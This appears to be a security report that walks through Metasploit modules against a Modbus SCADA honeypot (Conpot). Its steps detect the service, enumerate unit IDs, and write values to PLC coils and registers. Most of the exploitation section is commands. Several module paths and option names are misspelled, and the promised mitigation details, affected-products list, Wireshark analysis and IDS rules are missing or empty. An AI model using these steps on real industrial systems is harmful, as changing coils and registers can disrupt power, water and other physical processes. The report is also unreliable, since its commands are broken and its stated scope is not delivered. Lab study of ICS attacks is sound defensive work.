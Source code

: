 
# Overview

In this report, we will focus on modbus, the most widely used SCADA/ICS protocol. We will use Honeypot as the target.<br>

This Report provides:

* Mitigation details for a vulnerability affecting the Galil RIO-47100 "Pocket PLC."
* Disclosure of exploit runs on ModBus protocol.
* Simulating an attack scenario against Scada Honeypot (Conpot)
* Modbus attack diagnostic functions in Wireshark
* Writing IDS rules to detect attack


***

# Vulnerability Overview

#### Improper Input Validation
 This module detects the Modbus service, tested on a SAIA PCD1.M2 system. Modbus is a clear text protocol used in common SCADA systems, developed originally as a serial-line (RS232) async protocol, and later transformed to IP, which is called ModbusTCP.
#### Vulnerability Details
This module allows reading and writing data to a PLC using the Modbus protocol. This module is based on the 'modiconstop.rb' Basecamp module from DigitalBond, as well as the mbtget perl script.

##### _Explotability_

This vulnerability could be exploited remotely.

##### _Existence of Exploit_

Known public exploits specifically target this vulnerability.

##### _Difficulty_

An attacker with a medium skill would be able to exploit this vulnerability.

## Affected Produtcs

--
## Impact

 This vulnerabilities other potential disastrous impacts of DoS attacks against SCADA/ICS systems include electrical blackouts, shutdown of water and sewage systems and other essential municipal services.

Impact to individual organizations depends on many factors that are unique to each organization.
***
# Exploitation of Vulnerability

 Metasploit has several modules specifically designed for the discovery and use of this most widely used protocol.
In order to see these modules, we will use the "search modbus" command after entering the console with the "msfconsole" command.

```sh
msfconsole
search modbus
```
![alt text](https://github.com/ics-scada/Reports/blob/main/Modbus/Screenshots/search-modbus.png)
The first module we will use as an exploit is the modbusdetect module. As it name implies, it is capable of detecting whether a site is running the modbus protocol. 
```sh
use auxilary/scanner/scada/modbusdetect 
```
We see the values we need to set with the "show options" command.
```sh
show options
exploit
```
This module only needs to set the destination's IP address to RHOST. The default port for Modbus is 502, so RPORT is set to 502 by default.

The destination ip is entered with the Set RHOSTS <IP-ADDRESS> command and the RHOSTS section is checked with the Show options command.
```sh
set RHOSTS <IP-address>
```
When we run this module, it goes to port 502 of the target system and sends a probe to determine if it is using modbus.
It confirms that our target is running modbus and we can now move on to our modbus-based discovery and exploit.

 We have confirmed that the target is actually running the modbus protocol, the next step is to enumerate the Unit ID's of the connected devices.

Modbus allows for up to 254 connected devices. To manipulate or communicate with any modbus device, we must have its UNIT ID, 
```sh
use auxilary/scanner/scanner/modbus_findunitid
set RHOST <IP Address>
exploit
```
This module finds the Each Unit ID of connected devices. These UNIT IDs are critical for reading and writing their data, as we will see later.
![alt text](https://github.com/ics-scada/Reports/blob/main/Modbus/Screenshots/findunit_id.png)
Our next modbus module is modbusclient. It enables us to read and write the data from both the coils and registers on these SCADA systems. 

```sh
 use auxiliary/scanner/scada/modbusclient
 show options
 ``` 
 This module requires several variables to be set. Most important is the ACTION. This variable can be set as;
- READ_REGISTERS
- WRITE_REGISTERS
- READ_COILS
- WRITE_COILS

 In SCADA/ICS terminology, coils are devices on the network that are either ON or OFF. Their settings are either 1 or 0.  By changing the values of a coil, you are switching it on or off.
 
 ```sh
 set ACTION WRITE_COIL
 set DATA 1
 set DATA_ADRESS <?>
 exploit
 ``` 
We can read the coils to check if the value has actually changed.
 ``` sh
set ACTION READ_COILS
 exploit
 ``` 
 ![alt text](https://github.com/ics-scada/Reports/blob/main/Modbus/Screenshots/read_coils.png)
 To write the values in the registers
  ``` sh
set ACTION WRITE_REGISTERS
set DATA 27,27,27,27,27
  exploit
 ``` 
 To check to see whether the values have actually changed, we can change the ACTION to READ_REGISTERS.
   ``` sh
set ACTION READ_REGISTERS
exploit
 ``` 


***

# Packet Analysing
Run wireshark while exploit we’ve use running behind.
You see the blue part. This packet is the packet to the modbus protocol we want to analyze.
            ![alt text](https://github.com/ics-scada/Reports/blob/main/Modbus/Screenshots/Ekran%20g%C3%B6r%C3%BCnt%C3%BCs%C3%BC%202021-08-09%20174839.png)
Double-clicking on the line will open the package content. 

***


## Conclusion
Many industrial systems can be accessed and controlled using Metasploit's simple modbus modules. In the wrong hands, this manipulation of coils and registers might lead to devastating results.
